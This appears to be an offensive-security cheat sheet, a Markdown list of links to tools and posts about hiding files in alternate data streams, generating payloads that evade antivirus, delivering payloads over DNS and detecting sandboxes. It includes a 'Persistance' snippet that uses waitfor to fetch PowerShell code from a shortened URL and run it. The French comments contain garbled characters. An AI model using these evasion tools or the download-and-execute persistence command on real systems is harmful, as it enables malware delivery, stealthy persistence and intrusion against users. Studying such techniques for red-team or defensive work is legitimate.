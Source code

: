 * How to Create Linux Self Extracting Archive https://n0where.net/how-to-create-self-extracting-archive/ https://gist.github.com/coh7eiqu8thaBu/f2cafb13c1961b6a73853060c987c8af or http://megastep.org/makeself/makeself-2.1.5.run
* Hide file on ADS http://www.darknessgate.com/security-tutorials/date-hiding/ntfs-alternate-data-streams/
	* Can be hide in TeamViewer Log : ![How to hide file on ADS](https://pbs.twimg.com/media/DTVR9a5XcAAIZYC.jpg)
* Yet another way to hide from Sysinternals’ tools : http://www.hexacorn.com/blog/2018/01/04/yet-another-way-to-hide-from-sysinternals-tools/

## Download Payload or Payload Generator
* HTML/JS drops & executes base64 encoded executable with PowerShell > HTML/JS no AV detection > Dropped EXE detected https://www.hybrid-analysis.com/sample/3b66f0172d5700924f4749db2b7a6f07eb5b5a18033dc379e48d938789f6bf75?environmentId=100 https://twitter.com/cyb3rops/status/907236450248413190?s=09
* An example of infected Word doc : http://blog.talosintelligence.com/2017/10/cyber-conflict-decoy-document.html
* A tool to create a JScript file which loads a .NET v2 assembly from memory - https://github.com/tyranid/DotNetToJScript
* CACTUSTORCH: Payload Generation for Adversary Simulations https://www.mdsec.co.uk/2017/07/payload-generation-with-cactustorch/ / https://www.mdsec.co.uk/2017/07/payload-generation-with-cactustorch/
* Undetectable Windows Payload Generation with extras Running on Python2.7 https://github.com/nccgroup/winpayloads
* HERCULES is a special payload generator that can bypass antivirus softwares : https://github.com/EgeBalci/HERCULES
* Download Payload with DNS https://www.peerlyst.com/posts/transferring-backdoor-payloads-by-dns-aaaa-records-and-ipv6-address-damon-mohammadbagher
* Public malware techniques used in the wild: Virtual Machine, Emulation, Debuggers, Sandbox detection. https://github.com/LordNoteworthy/al-khaser


## Persistance
* Persistance one shot
```
# Dans une premi�re invite de command :
waitfor persist && PowerShell IEX (IWR http://bit.ly/L3g1t).Content

# Dans une autre cela d�clence la commande pr�c�dente et t�l�charge la charge
waitfor /s 127.0.0.1 /si persist

# example de charge (http://bit.ly/L3g1t)
Write-Host SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION -ForegroundColor Green
```
* Obfuscates compiled java code to make it harder to reverse engineer. https://github.com/CalebWhiting/java-asm-obfuscator
* Word add-in persistence found in the wild : "%APPDATA%\Microsoft\word\startup\w.wll" https://mymalwareparty.blogspot.com/2018/01/word-add-in-persistence-found-in-wild.html

## Genetic Malware
* Obowla https://github.com/Genetic-Malware/Ebowla
* GoGreen https://github.com/leoloobeek/GoGreen / https://adapt-and-attack.com/2017/11/15/keying-payloads-for-scripting-languages/
